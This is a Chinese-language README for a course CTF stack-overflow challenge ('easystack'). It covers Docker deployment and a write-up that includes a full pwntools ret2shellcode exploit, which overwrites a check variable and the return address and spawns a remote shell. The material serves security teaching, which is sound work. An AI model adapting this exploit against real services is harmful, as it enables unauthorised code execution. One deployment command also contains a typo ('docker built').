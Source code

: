 # pwn1-栈 easystack


## 介绍

本题主要考验同学们对栈溢出的掌握，具体来说考察ret2shellcode的技巧，比较简单，希望每位同学都能够完成。


## 部署

使用`xinetd`来部署题目，用于打包docker镜像的文件位于`easystack`目录下：

1. 修改`bin/flag`为你想要的flag值

2. 将编译好的题目二进制文件`easystack`放置于`bin/`目录下

3. 修改`ctf.xinetd`的`server_args`使其执行题目二进制文件；修改`port`为容器内某自定义端口（e.g., 10010）；

4. 修改Dockerfile中的`EXPOSE`端口与上面的`port`一致

5. 构建容器镜像并创建容器：

    ```bash
    docker built -t easystack .
    docker run -itd -p 31051:10010 --name ctfd_easystack easystack
    ```

6. 执行`nc localhost 31051`来验证题目是否部署成功


## 题解

1. 逆向与验证：程序的主要功能是：打印s的起始地址、接收用户输入、检查v5如果v5!=0xDEADBEEF，就执行exit(0)，否则正常return。nc服务器程序发现每次打印的s起始地址在变化，说明服务器开启了地址空间随机化。

2. 攻击思路：用户可以控制输入s进行栈溢出攻击，攻击payload要满足三个条件：1）将v5覆盖写为0xDEADBEEF。2）将return address修改为shellcode地址（或shellcode前的NOP Sled）。3）在payload输入尾部插入shellcode，并用NOP填充。

3. 栈布局：

溢出前的栈布局：

| 栈地址   | 内容           |
| -------- | -------------- |
| ...      | ...            |
| ebp+4    | return address |
| ebp      | previous ebp   |
| ebp-8    | v5             |
| ...      | ...            |
| ebp-0x48 | s              |

溢出后的栈布局：

| 栈地址   | 内容                                           |
| -------- | ---------------------------------------------- |
| addr     | **shellcode**                                  |
| ...      | **NOP Sled**                                   |
| ebp+4    | **new return address** (minimum addr is ebp+8) |
| ebp      | ...                                            |
| ebp-8    | **new v5**                                     |
| ...      | ...                                            |
| ebp-0x48 | s                                              |

4. exploit编写：

```python
#!/usr/bin/env python3
import re
from pwn import *

# set and load target program
p = remote('*server_ip*', 31051)

# receive the first printed bytes
print_info_byte = p.recv()
print_info_str = print_info_byte.decode('utf-8', 'ignore')

# find address of s by regex (find 0xXXX... in print_info_str)
pattern = r'0x[0-9a-fA-F]+'
match = re.search(pattern, print_info_str)
s_address = int(match.group(0), 16)
print('address of s:', hex(s_address))

# construct shellcode for 32-bit
shellcode = asm(shellcraft.sh())

# rewrite the value of return address (s address is ebp-72, return address is ebp+4)
ret_offset = 76
return_address = p32(s_address + ret_offset + 4)

# rewrite value of v5 to what we need
v5_offset = 64
v5_value = p32(0xDEADBEEF)

# construct payload, remember to add \n for gets()
payload = b'A'*v5_offset  + v5_value + b'A'*(ret_offset-v5_offset-4) + return_address + shellcode + b'\n'

# send payload
p.sendline(payload)

# get interactive shell
p.interactive()
```

也可以参照之前stack overflow实验的`exploit.py`来构建攻击代码。

5. 获取flag：执行`exploit.py`获取到shell之后，通过`cat flag`获取flag。
